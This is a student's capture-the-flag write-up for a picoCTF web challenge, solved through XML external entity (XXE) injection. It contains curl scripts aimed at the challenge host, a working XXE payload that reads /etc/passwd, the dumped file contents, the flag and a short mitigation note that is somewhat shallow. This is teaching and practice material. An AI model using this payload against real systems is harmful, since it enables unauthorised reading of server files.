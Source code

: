 ## CTFi: PICO Web Fall25 
Challenge: SOAP

Category: web

Points:

Difficulty: Intermediate 

## Instructions

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Web Portal
Hint
KZY rkgreany ragvgl Vawrpgvba

## Solution
* looking for /etc/passwd
* could I just find it in the url using ~/etc/passwd or something of the sort
* no brings me to google search
* looking is source see the images are /static/image1.png coming straight from the website maybe I can use above idea differently
* looked at cookies there is a value called isAdmin change cookie and try to get admin
* when changing the value to one get this response
<strong>Special Info::::</strong> Created By security and privacy experts
* The static file from the above idea is in the root directory -> might beable to use /etc/passwd somehow on the url
* looking at the java script there is a script that writes XML files and the hint said XML injections 
* need to find a way to add my own XML code so that is give mw the password
* Java code I found that uses xml files
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
* need to find how to enter data into the script possibly via cookie or url
* need to add twon lines of code I found online
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;
* Think I need to add the stuff between the <> or  
#!/bin/bash  

      curl 'http://saturn.picoctf.net:49562/data' \
        -H 'Accept: */*' \
        -H 'Accept-Language: en-US,en;q=0.9' \
        -H 'Connection: keep-alive' \
        -H 'Content-Type: application/xml' \
        -H 'Cookie: isAdmin=0' \
        -H 'Origin: http://saturn.picoctf.net:49562' \
        -H 'Referer: http://saturn.picoctf.net:49562/' \
        -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36' \
        --data-raw '<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>' \
        --insecure

* need to change the stuff at the end of raw data to open the file 
  --data-raw '<?xml version="1.0" encoding="UTF-8"?><data><etc>passwd</etc></data>' \
* Possible awnser to get the password
* made a for loop to run through some of the IDs to see if one will return the flag  
#!/bin/bash  

      for i in $(seq 1 10);
      do
              touch ./hold/s$1
              curl -o ./hold/s$1 'http://saturn.picoctf.net:60917/data' \
                -H 'Accept: */*' \
                -H 'Accept-Language: en-US,en;q=0.9' \
                -H 'Connection: keep-alive' \
                -H 'Content-Type: application/xml' \
                -H 'Cookie: isAdmin=0' \
                -H 'Origin: http://saturn.picoctf.net:60917' \
                -H 'Referer: http://saturn.picoctf.net:60917/' \
                -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36' \
                --data-raw "<?xml version="1.0" encoding="UTF-8"?><data><ID>$i</ID></data>" \
                --insecure
      done

* It did not work I dont think that is the awnser I need i Think I need to find a way to open the file using injection and html
* Solved using injection code below 

      --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><data><ID>&xxe;</ID></data>' \
* The rest of the code is the same as above
* The injection cause the following to come back

      Invalid ID: root:x:0:0:root:/root:/bin/bash                                                                                                                                                                                                 
      daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                                                                                                                                                                             
      bin:x:2:2:bin:/bin:/usr/sbin/nologin                                                                                                                                                                                                        
      sys:x:3:3:sys:/dev:/usr/sbin/nologin                                                                                                                                                                                                        
      sync:x:4:65534:sync:/bin:/bin/sync                                                                                                                                                                                                          
      games:x:5:60:games:/usr/games:/usr/sbin/nologin                                                                                                                                                                                             
      man:x:6:12:man:/var/cache/man:/usr/sbin/nologin                                                                                                                                                                                             
      lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin                                                                                                                                                                                                
      mail:x:8:8:mail:/var/mail:/usr/sbin/nologin                                                                                                                                                                                                 
      news:x:9:9:news:/var/spool/news:/usr/sbin/nologin                                                                                                                                                                                           
      uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin                                                                                                                                                                                         
      proxy:x:13:13:proxy:/bin:/usr/sbin/nologin                                                                                                                                                                                                  
      www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin                                                                                                                                                                                        
      backup:x:34:34:backup:/var/backups:/usr/sbin/nologin                                                                                                                                                                                        
      list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin                                                                                                                                                                               
      irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
      gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
      nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
      _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
      flask:x:999:999::/app:/bin/sh
      picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
* The flag is on the last line


## Flag

picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}

## Mitigation
A way to mitigate against xml injection would be to sanatize the responses that are comming in checking for any characters that could cause a xml inejection attack to occur.
